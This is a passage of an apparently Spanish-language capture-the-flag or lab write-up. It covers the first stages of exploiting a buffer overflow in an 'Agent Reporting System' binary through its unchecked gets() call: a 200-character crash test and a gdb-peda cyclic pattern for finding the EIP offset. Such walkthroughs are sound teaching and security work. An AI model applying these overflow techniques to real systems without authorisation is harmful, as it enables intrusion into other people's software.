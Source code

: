 ```bash
Login Validated 
Main Menu:
1. Extraction Points
2. Request Extraction
3. Submit Report
4. Exit
Enter selection: 
```

Acción: como vimos que la función vulnerable a un *BOF* se encuentra en el apartado de `Report` vamos a la opción 3 y tratar de abusar de esa función `gets` que no valida el nº de caracteres introducidos por el usuario

Primero imprimimos 200 'A' para probar si se produce un desbordamiento de buffer y si vemos algún error por pantalla

```bash
python -c 'print("A" * 200)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

```bash
  ___ __  __ ___ 
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID : 48093572    
Login Validated 
Main Menu:
1. Extraction Points
2. Request Extraction
3. Submit Report
4. Exit
Enter selection: 3

Enter report update: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Resultado:

![Captura](./Imágenes/PEDA_1.png)

Explicación: vemos un error y el EIP correspondiente. Podemos saber más de este proceso en *Asignación de espacio para el Shellcode*

Acción:

```bash
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
```
